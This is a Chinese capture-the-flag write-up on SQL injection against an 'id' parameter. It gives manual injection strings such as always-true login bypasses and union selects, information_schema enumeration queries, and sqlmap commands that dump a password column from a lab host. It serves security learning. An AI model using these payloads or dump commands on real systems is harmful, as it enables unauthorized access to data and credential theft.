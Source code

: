 # inget

知识点：sql注入
根据提示，有一个参数id，对id进行sql注入尝试
思路：先尝试万能密码注入，接着查库、查表、查列、查数据

1. 构造万能密码和简单构造注入

    注入语句
    ‘~’ 相当于16进制的0x7e
    万能密码 'or ‘1’ ='1
    ’ and ‘1’=‘1
    ’ and 1=2 union select 1,user(),3- -+ 前面加’是为了闭合后面的’
    group_concat(string)

2. 核心语法获取数据库信息
    SQL手工注入方法

    ```sql
    select schema_name from information_schema.schemata（查库）
    select table_name from information_schema.tables where table_schema=库名（查表）
    select column_name from information_schema.colums where table_name=表名（查列）
    select 列名 from 库名.表名（查数据）
    ```

    这道题万能密码’ and ‘1’='1就能爆出flag

两篇学习文章：
https://blog.csdn.net/lza20001103/article/details/124242991
https://blog.csdn.net/FUTEROX/article/details/117754069

## Sqlmap一把梭哈

1. 得到数据库名称

```python
python sqlmap.py -u http://61.147.171.105:49910?id=1 --current-db
```

2. 得到表

```python
python sqlmap.py -u http://61.147.171.105:49910?id=1 -D cyber --tables
```

3. 得到列

```python
python sqlmap.py -u http://61.147.171.105:49910?id=1 -D cyber -T cyber --columns
```

4. 查看对应列的数据

```python
python sqlmap.py -u http://61.147.171.105:49910?id=1 -D cyber -T cyber -C pw --dump
```

`--dump` 选项表示“导出数据”。具体来说，`--dump` 会提取并导出指定表中符合条件的列的所有数据。在这个例子中，它会从数据库 `cyber` 的 `cyber` 表中的 `pw` 列中提取并展示所有数据。